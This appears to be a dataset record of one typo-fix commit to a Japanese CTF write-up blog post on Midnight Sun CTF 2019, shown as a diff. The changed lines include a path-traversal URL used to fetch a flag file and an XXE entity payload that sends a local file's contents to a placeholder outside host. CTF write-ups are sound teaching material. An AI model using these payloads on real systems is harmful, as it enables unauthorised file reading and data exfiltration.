

Before and after one commit to st98/diary, a Jekyll site: the page built from _posts/2019-04-07-midnight-sun-ctf-2019.md, in a window 1280 px wide and 1400 px high, scrolled down 4058 px. Shown: the whole window at 96% size, without its empty margins (192-1087 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
typoを直した

````diff
--- a/_posts/2019-04-07-midnight-sun-ctf-2019.md
+++ b/_posts/2019-04-07-midnight-sun-ctf-2019.md
@@ -156,13 +156,11 @@
 </html>
 ```
 
-`/admin/flag.txt` も `/pleb.(IP アドレス).nip.io:8080/index.php/admin../uberadmin/flag.txt` で取得します。
+`/uberadmin/flag.txt` も `/pleb.(IP アドレス).nip.io:8080/index.php/admin../uberadmin/flag.txt` で取得します。
 
 ```
 midnight{y0u_sp1n_m3_r1ght_r0und_b@by}
 ```
-
-フラグが得られました。
 
 ### rubenscube (424)
 > Sharing is caring. For picture wizard use only.
@@ -178,7 +176,7 @@
 
 ```xml
 <?xml version="1.0" encoding="UTF-8"?>
-<!ENTITY % all "<!ENTITY send SYSTEM 'http://()/?%file;'>">
+<!ENTITY % all "<!ENTITY send SYSTEM 'http://(URL)/?%file;'>">
 %all;
 ```
 
````
